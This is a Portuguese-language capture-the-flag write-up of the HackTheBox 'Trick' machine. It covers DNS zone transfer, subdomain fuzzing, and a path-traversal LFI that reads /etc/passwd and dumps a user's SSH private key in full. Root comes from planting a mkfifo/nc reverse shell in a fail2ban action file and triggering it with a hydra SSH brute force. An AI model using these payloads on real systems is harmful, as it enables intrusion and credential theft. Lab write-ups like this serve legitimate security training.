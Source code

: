 # TRICK

# Dificuldade : Fácil

<h1>Dessa vez um CTF de dificuldade fácil, porém, diria que foi extremamente interessante entender o processo de escalar privilégio usado para resolver a flag root.</h1>

A maquina é a [TRICK](https://app.hackthebox.com/machines/Trick).

Enumeração #1:

Iniciando com aquele nmap basico.

```
nmap -p- -sS --min-rate 5000 -vvv -n -Pn -oN allports 10.10.11.166
 PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
25/tcp open  smtp    syn-ack ttl 63
53/tcp open  domain  syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
...
```

#Pagina porta 80

![Untitled](https://user-images.githubusercontent.com/32500664/188253767-dbadcf19-5ba8-4d13-9eb2-d5feb3024a5f.png)

Eu tentei tentei e tentei achar alguma brecha nessa pagina e algum diretório fora do “comum” porém sem sucesso ;(. 

#SMTP

Usei alguns script do nmap usando o `nmap -p25 --script "smtp*" -oN smtp {ip}`. Infelizmente mais uma porta aberta seguida de uma portada na cara…

Sem sucesso nas portas abertas e nem uma brechinha na pagina web… Vamos “cavar” mais fundo…

Usando o comando `dig axfr @10.10.11.166 trick.htb`

```bash
; <<>> DiG 9.18.4 <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
```

Acho que achamos o X 🦜. D**ois subdomínios para adicionar ao etc/host. O root é inútil, pois é a mesma página. Por outro lado, o “preprod-payrool” tem uma página de login. Tentei injeção sql utilizando SQLmap no formulário de login do site mas nada positivo... Pensei na possibilidade de existir mais alguns subdominios como preprod-XYZW.**

adicionando o `trick.htb ao arquivo /etc/hosts que tem como função, função de mapear um nome para um endereço IP. E é um dos primeiros a ser verificado assim que a URL é digitada.`

Depois de adicionado usando o FFUF para “fuzzar” o Header Host: afim de verificar qual passa pela requisição.

```bash
ffuf -w /wordlist/Dirb/big.txt/:FUZZ -u http://trick.htb/ -H 'Host: preprod-FUZZ.trick.htb' -v -fs 5480

[Status: 200, Size: 9660, Words: 3007, Lines: 179]
| URL | http://trick.htb/
    * FUZZ: marketing
```

# Acesso não autorizado, Autorizado! Ué ?

Depos de adicionar o novo dominio descoberto ao arquivo /etc/hosts podemos acessar uma pagina bastante interessante… Quando você seleciona qualquer aba no menu de navegação, a url muda para `index.php?page=about.html` . Isso é abre brechas para testes que se positivos (pra mim, pro cliente nem tanto…) permitem um LFI. Usando uma wordlists da seclist com o ffuf para automatizar esse fuzzing…

```bash
ffuf -w /home/sant/wordlist/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://preprod-marketing.trick.htb/index.php\?page\=FUZZ -v -fs 0

[Status: 200, Size: 2351, Words: 28, Lines: 42, Duration: 150ms]
| URL | http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd
    * FUZZ: ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd

```
Depois que o primeiro resultado der positivo pode parar a ferramenta (CTRL + C) QUE 1 TÁ BOM :)
![Untitled 1](https://user-images.githubusercontent.com/32500664/188253769-914dbf3a-8599-48b9-bab1-9299e6ff3a41.png)
```

Temos um nome de um usuário…

Utilizando o comando curl pra pegar a arquivo que contem a chave privada do usuário michael.

```bash
$curl http://preprod-marketing.trick.htb/index.php\?page\=....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//home/michael/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Copie toda chave para seu computador criando o arquivo usado para acessar a conta de michael…

```bash
echo "{cole a chave aqui dentro entre aspas}" > id_rsa
```

Apos criar o arquivo id_rsa… De permissões para que seja legivel no momento do login com ssh

`chmod 600 id_rsa`

e em seguida use a chave para logar com o usuário michael

`ssh -i id_rsa michael@{IP da maquina HTB}`

e funciona !!!

![Untitled 2](https://user-images.githubusercontent.com/32500664/188253806-8e7946e9-472d-424b-a360-b1b5d9535483.png)

# FLAG USER

![Untitled 3](https://user-images.githubusercontent.com/32500664/188253813-b54915db-8733-4fd2-b919-ad112c3871d2.png)

# FLAG ROOT

Uma vez dentro o comum seria executar o comando `sudo -l` para verificar se o usuário que estamos logados possuem algum privilégio, e temos!!

```bash
michael@trick:~$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

fail2ban é um software que tem como função banir o IP de quem falha muitas vezes o login ao SSH.

E pesquisando é possivel encontrar artigos sobre o escalonamento de privilégios utilizando essa ferramenta como fonte.

Basicamente temos que editar o arquivo **`/etc/fail2ban/action.d/iptables-multiport.conf`** que é responsavel por guardar os comandos executados pelo root quando ele banir alguem…

Como o dono do arquivo é o root não podemos editar-lo, porém, podemos substitui-lo.

```bash
#Vamos copiar o arquivo para o diretório que estamos.

$ cp /etc/fail2ban/action.d/iptables-multiport.conf .

#E edita-lo com o nano/vim (dependendo do qual você usar... Somos possiveis amigos)
... (Vamos editar o comando `actionban` para conseguir shell como root)
actionban =  rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {Seu ip tun0} 4242 >/tmp/f
...
#CTRL + X seguido de Y + Enter para salvar.
#Criamos nosso arquivo "bomba" agora só substituir pelo arquivo original.

$ mv iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf

#O mv vai perguntar se você quer substituir... Você digita "y" e dá enter

$ mv: replace '/etc/fail2ban/action.d/iptables-multiport.conf', overriding mode 0644 (rw-r--r--)? y

#Executando comando como root para reiniciar o fail2ban

$ sudo /etc/init.d/fail2ban restart
```

#Agora é só forçar ele a executar o comando… Como fazemos isso ? TOMANDO BAN por merecimento.

Abre uma outra aba no seu terminal ou “splita” ele no meio e escuta a porta que vai receber a reverse shell: (no meu caso a 4242)

`nc -nvlp 4242`

E TOMA-LE BAN

`hydra -l michael -P /home/sant/wordlist/rockyou.txt ssh://10.10.11.166`

Esse comando inicia um ataque de força bruta ao ssh da maquina e em questão de segundos recebemos a shell de root

```bash
$ nc -lvp 4242
Connection from 10.10.11.166:49380
/bin/sh: 0: can't access tty; job control turned off
$ whoami
root
$ cd /root
$ cat root.txt
!!!!!! FLAG ROOT !!!!!!
```
